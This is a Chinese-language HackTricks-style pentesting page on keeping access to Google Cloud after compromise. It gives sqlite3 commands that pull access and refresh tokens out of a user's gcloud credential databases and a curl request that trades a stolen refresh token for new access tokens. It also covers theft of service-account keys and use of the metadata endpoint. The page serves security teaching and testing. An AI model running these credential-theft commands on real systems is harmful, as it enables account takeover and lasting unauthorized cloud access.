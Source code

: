 # GCP - 非服务持久性

<details>

<summary><strong>从零开始学习AWS黑客攻击直到成为专家，通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS 红队专家)</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在 **HackTricks中看到您的公司广告** 或 **以PDF格式下载HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方的PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

这些是一旦您以某种方式攻破了一些GCP凭证或在GCP环境中运行的机器后，非常有用的技术。

## 令牌劫持

### 已认证用户

如果您设法访问了GCP中**已认证用户的主文件夹**，**默认情况下**，您将能够**随时获取该用户的令牌**，而无需认证，无论您使用他的令牌的机器如何，即使用户配置了MFA也是如此。

这是因为默认情况下，您**将能够使用刷新令牌**，只要您想生成新的令牌。

要获取用户的**当前令牌**，您可以运行：

{% code overflow="wrap" %}
```bash
sqlite3 ./.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
```plaintext
在此页面查看如何**直接使用 gcloud 使用此令牌**：

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

要获取**生成新访问令牌**的详细信息，请运行：

{% code overflow="wrap" %}
```
```bash
sqlite3 ./.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
```
要使用**刷新令牌**、客户端ID和客户端密钥获取新的刷新后的访问令牌，请运行：
```
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

刷新令牌的有效性可以在 **Admin** > **Security** > **Google Cloud session control** 中管理，默认设置为16小时，尽管可以设置为永不过期：

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### 服务账户

就像已认证用户一样，如果你设法**窃取服务账户的私钥文件**，你将能够**通常随心所欲地访问它**。\
然而，如果你窃取了服务账户的 **OAuth 令牌**，这可能更加有趣，因为即使默认情况下这些令牌只有一个小时的有效期，如果**受害者删除了私有 API 密钥，OAuth 令牌仍将有效，直到它过期**。

### 元数据

显然，只要你在 GCP 环境中运行的机器内部，你将能够**通过联系元数据端点访问附加到该机器的服务账户**（注意，你在此端点中访问的 OAuth 令牌通常受到范围限制）。

### 补救措施

这些技术的一些补救措施在 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) 中有解释

## 参考资料

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习 AWS 黑客攻击！</strong></summary>

支持 HackTricks 的其他方式：

* 如果你想在 **HackTricks** 中看到你的**公司广告**或**下载 HackTricks 的 PDF** 版本，请查看 [**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取 [**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 发现 [**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家的 [**NFTs**](https://opensea.io/collection/the-peass-family) 系列
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享你的黑客技巧**。

</details>
